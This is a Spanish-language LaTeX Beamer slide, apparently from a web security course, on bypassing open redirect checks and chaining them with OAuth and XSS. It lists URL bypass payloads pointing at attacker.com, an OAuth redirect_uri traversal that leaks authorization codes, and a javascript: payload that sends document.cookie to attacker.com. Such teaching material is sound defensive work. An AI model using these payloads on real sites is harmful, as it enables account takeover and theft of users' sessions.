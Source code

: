 \documentclass[aspectratio=169,10pt]{beamer}
\newcommand{\cmdbox}[1]{%
  \begin{center}%
  {\setlength{\fboxsep}{6pt}\colorbox{uzlav!40}{\parbox{0.88\linewidth}{\ttfamily\footnotesize #1}}}%
  \end{center}}
\begin{document}
\begin{frame}[allowframebreaks]{Open Redirect --- Bypass y encadenamiento con OAuth}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item Bypass de validaciones basadas en startswith/contains
  \item[] \cmdbox{Si la app valida que la URL empiece por el dominio legítimo:}
  \item https://victima.com.attacker.com (subdominio del atacante)
  \item https://victima.com@attacker.com (@ separa user:pass del host)
  \item //attacker.com (protocol-relative URL)
  \item /\textbackslash\{\}attacker.com (backslash normalizado por browsers)
  \item Bypass con codificación
  \item \%2F\%2Fattacker.com (doble slash URL-encoded)
  \item https://attacker\%2Ecom (punto URL-encoded)
  \item https://attacker\textbackslash\{\}.com (backslash confunde parsers)
  \item Account Takeover vía OAuth + Open Redirect
  \item[] \cmdbox{Si el servidor OAuth valida redirect\_uri como 'startswith':}
  \item GET /oauth/authorize?client\_id=X
  \item \&redirect\_uri=https://victima.com/cb/../../../attacker.com
  \item $\rightarrow$ Path traversal en la URL $\rightarrow$ el authorization code llega al atacante
  \item $\rightarrow$ El atacante canjea el code por access\_token $\rightarrow$ Account Takeover
  \item Encadenamiento con XSS (javascript: protocol)
  \item ?url=javascript:fetch('https://attacker.com/?c='+document.cookie)
  \item $\rightarrow$ Solo en clientes que ejecutan javascript: en location (raro en navegadores modernos)
  \item Severidad: Media sola --- Crítica encadenada con OAuth o XSS
  \item portswigger.net/web-security/oauth (open redirect + OAuth account takeover)
  \item Automatizar la búsqueda: Oralyzer

\end{itemize}
\end{frame}
\end{document}
